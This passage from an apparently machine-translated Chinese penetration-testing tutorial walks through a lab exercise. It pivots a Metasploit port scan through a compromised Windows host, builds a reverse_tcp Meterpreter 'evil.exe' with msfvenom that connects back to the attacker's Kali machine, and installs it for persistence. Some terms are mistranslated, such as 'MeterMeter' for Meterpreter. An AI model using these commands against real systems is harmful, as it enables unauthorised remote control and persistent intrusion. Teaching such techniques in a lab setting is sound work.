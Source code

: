 3.  下一步，为了验证是否已旋转，我们将尝试使用 Metasploit 在隐藏的 Ubuntu 机器上执行端口扫描：

```
use auxiliary/scanner/portscan/tcp
set RHOSTS <<Ubuntu IP address>>
run
```

上述命令的输出如下所示：

![](img/f53dd1f8-1773-4cc4-9dfd-50122717f12e.jpg)

从扫描结果中，我们可以看到有许多端口打开。这意味着我们已经成功地将受损的机器旋转。我们可以得出这样的结论，因为只有端口`22`（SSH）被公开；任何其他机器的扫描只会显示端口`22`打开。一旦旋转成功，我们就可以通过受损的 Windows 机器在内部网络中执行大量攻击。

现在是本练习的最后一段，我们如何确保持久访问受损机器？我们可以使用后期开发模块来实现这一点。首先，我们需要创建一个恶意的`.exe`文件，该文件将连接回我们的 Kali 机器。为此，我们将使用 Metasploit 套件中另一个名为`msfvenom`的工具：

1.  如果您在 MeterMeter 会话中，请将其置于后台，并发出以下命令：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali ip> LPORT=4444 -f exe -o /tmp/evil.exe
```

使用`msfvenom`，我们创建了一个`exe`文件，现在需要将其传输到受害者机器。

2.  返回 MeterMeter 会话并发出以下命令：

```
run post/windows/manage/persistence_exe REXEPATH=/tmp/evil.exe REXENAME=default.exe STARTUP=USER LocalExePath=C:\\tmp
```

上述命令的输出如下所示：

![](img/3ef86d02-f685-4f04-a6c6-74888a38a4d1.jpg)

让我们检查一下我们的坚持是否有效。要验证这一点，请从 MeterMeter 会话中重新启动目标服务器并退出 MeterMeter 会话。从 MeterMeter 会话发出以下命令：

```
reboot
```

通过运行`exit`命令退出 MeterMeter 会话。
